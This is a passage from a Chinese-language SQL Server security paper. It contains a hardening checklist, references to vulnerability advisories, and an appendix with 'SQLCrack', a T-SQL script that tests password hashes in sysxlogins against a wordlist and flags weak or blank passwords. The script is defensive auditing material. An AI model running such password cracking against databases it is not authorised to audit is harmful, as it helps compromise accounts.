    - c. 确保所有账户都有强密码；定期对服务器运行密码审计脚本（例如本文附录提供的脚本）。
- 3. 验证存在哪些对象
    - a. 许多扩展存储过程可以安全地删除。 如果这样做了，考虑删除包含扩展存储过程代码的“.dll”文件。
    - b. 删除所有示例数据库 - 例如“northwind”和“pubs”数据库。
- 4. 验证哪些账户可以访问哪些对象
    - a. 应用程序用于访问数据库的账户应该只具有访问所需对象的最低权限。
- 5. 验证服务器的补丁级别
    - a. 针对 SQL Server 存在几种缓冲区溢出[3]，[4]和格式化字符串[5]攻击（大部分由作者发现），以及其他几个已修复的安全问题。 很可能还存在更多。
- 6. 验证将记录什么以及对记录将采取什么措施。

www.sqlsecurity.com 提供了一份出色的安全检查清单[2]。

## [参考文献]

[1] 使用 ODBC 错误消息进行 Web 应用程序拆解，David Litchfield
http://www.nextgenss.com/papers/webappdis.doc
[2] SQL Server 安全检查清单
http://www.sqlsecurity.com/checklist.asp
[3] SQL Server 2000 扩展存储过程漏洞
http://www.atstake.com/research/advisories/2000/a120100-2.txt
[4] Microsoft SQL Server 扩展存储过程漏洞
http://www.atstake.com/research/advisories/2000/a120100-1.txt
[5] SQL Server 中的多个缓冲区格式字符串漏洞
http://www.microsoft.com/technet/security/bulletin/MS01-060.asp
http://www.atstake.com/research/advisories/2001/a122001-1.txt

# 附录A - 'SQLCrack'

这个 SQL 密码破解脚本（由作者编写）需要访问 master..sysxlogins 的 'password' 列，因此不太可能对攻击者有用。然而，对于寻求提高数据库中使用的密码质量的数据库管理员来说，这是一个非常有用的工具。

要使用该脚本，请将密码文件的路径替换为 'c:emp\passwords.txt'，并替换 'bulk insert' 语句。 密码文件可以从网上的许多地方获取；我们在这里没有提供一个全面的样本，但这一个小样本（该文件应保存为 MS-DOS 文本文件，并带有 <CR><LF> 行结束符）。 该脚本还将检测到 'joe' 账户-具有与其用户名相同的密码的账户-以及空密码的账户。

- sqlserver
- sql
- administrator
- 芝麻
- sa
- guest

这是脚本：
(sqlcrack.sql)

```sql
CREATE TABLE tempdb..passwords ( pwd varchar(255) )
BULK INSERT tempdb..passwords FROM 'c:emp\passwords.txt'
SELECT name, pwd from tempdb..passwords INNER JOIN sysxlogins
    ON    (pwdcompare( pwd, sysxlogins.password, 0 ) = 1)
UNION SELECT name, name FROM sysxlogins WHERE
    (pwdcompare( name, sysxlogins.password, 0 ) = 1)
UNION SELECT sysxlogins.name, null FROM sysxlogins JOIN syslogins ON
sysxlogins.sid=syslogins.sid
    WHERE sysxlogins.password is null AND
              syslogins.isntgroup=0 AND
              syslogins.isntuser=0
DROP TABLE tempdb..passwords
```